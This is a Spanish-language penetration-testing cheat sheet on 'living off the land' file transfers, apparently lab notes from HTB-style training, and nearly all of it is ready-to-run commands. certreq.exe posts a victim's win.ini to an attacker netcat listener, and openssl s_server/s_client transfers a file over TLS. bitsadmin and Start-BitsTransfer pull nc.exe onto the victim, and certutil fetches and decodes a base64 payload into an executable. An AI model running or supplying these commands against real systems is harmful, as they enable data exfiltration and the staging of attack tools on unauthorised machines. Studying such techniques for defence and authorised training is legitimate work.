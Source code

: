 ## Living off The Land

**LOLBAS / GTFOBins**
Sitios para buscar binarios nativos reutilizables: [LOLBAS](https://lolbas-project.github.io/) (Windows) y [GTFOBins](https://gtfobins.github.io/) (Linux). Útiles para funciones: Download, Upload, Exec, File Read/Write, Bypasses.

**CertReq.exe (Windows) — Upload**
```
#Desde la víctima: intentar subir C:\Windows\win.ini (POST al servidor atacante)
certreq.exe -Post -config http://192.168.49.128:8000/ C:\Windows\win.ini

#En el host atacante: escuchar con netcat y ver POST (copiar/pegar contenido)
sudo nc -lvnp 8000
#Ejemplo de captura:
#POST / HTTP/1.1
#Content-Type: application/json
#... (contenido de win.ini)
```

**OpenSSL (GTFOBins) — "nc style" sobre TLS**
```
#Pwnbox: crear certificado autofirmado
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

#Pwnbox: servir archivo por TLS (envía /tmp/LinEnum.sh)
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

#Víctima: conectar y guardar la salida en LinEnum.sh
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

**Bitsadmin / BITS (Windows) — Download**
```
#Bitsadmin (legacy) - descargar un exe
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe

#PowerShell - Start-BitsTransfer
Import-Module BitsTransfer
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

**Certutil (Windows) — Download / decode**
```
#Descargar con certutil (actúa como wget)
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe

#Descarga de base64 y decodificación
certutil -urlcache -split -f http://10.10.10.32:8000/payload.b64 payload.b64
certutil -decode payload.b64 payload.exe
```
_________________________________________________________
